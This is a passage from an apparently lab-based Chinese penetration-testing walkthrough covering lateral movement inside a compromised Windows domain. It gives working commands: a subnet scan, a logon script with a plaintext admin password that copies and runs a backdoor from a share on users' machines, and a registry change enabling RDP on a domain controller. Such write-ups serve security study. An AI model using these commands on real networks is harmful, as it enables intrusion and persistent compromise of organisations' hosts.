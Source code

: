 ![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPOXvuruIwyAPdSEGTBxGfhV8sfqSF4w01eAh9mzSyuesmibYAPgBPlpSw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPOsbsPFPibfvVMjFHQnbjxFMtqxaYqjiaRHyXmB2xbl4Kb7b764wyUCeiaQ/640?wx_fmt=png)

域控权限已经获取同意的总部权限也是相同方法获取。

**5.26 渗透广州支部运维组**

现在已经获取域控的权限，域内的主机都可以控制。在内网较多的权限在运维组，如果在内网控制运维组，基本上可以得到所有在域以外的服务器。如果短期无法获取目标的信息，可以长期监控记录 运维组，一定会有所收获。

获取运维组成员权限。

扫描 c 段

nbtscan -r 10.10.2.0/24

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPO1ohu4G4sSkX1srwicgabcFxViagQVYVgMuGickbgMRA2nPTGlaa0rrSwg/640?wx_fmt=png)

**5.27 域控下发文件并执行获取运维组主机权限**

在前面发现用户 xiaoa 和 xiaob 都是广州运维组的成员用户。获取了域控的权限，设置用户在开机登录时候时候执行脚本，下发文件执行后门。

保存 logon.bat

```
net use \\10.10.2.131 QWEasd123 /user:moonteam\administrator
copy\\10.10.2.131\c$\666.exe c:\users\%username%\666.exe
cmd /c start c:\users\%username%\666.exe
```

存放在域控 scripts 下

```
C:\Windows\SYSVOL\sysvol\moonteam.com\scripts\
```

设置用户登录加载脚本

```
netuser xiaoa /scriptpath:logon.bat
netuser xiaob /scriptpath:logon.bat
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPO2viaObUAkcxWVafwhIH1CIB1ice3lucB78fiaqvIgSiccExiafIp9UUMicIw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPOeHrZlxJF788ia8PXndBXVa17OQ1OH8m2JlNa7AYIXIu1bvjIef2jRbw/640?wx_fmt=png)

域用户登录后会自动下载后门并且执行。

收集信息的时候发现。3389 登录信息

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPOA2oblS7cvRPU24y9L4RIgyWGNptBC2MW65ribaDibibprFW3RExJO6kpw/640?wx_fmt=png)

**5.28 开启广州 12dc 域控 3389**

```
reg add"HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\TerminalServer" /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
netstat-ano| findstr "3389"
```
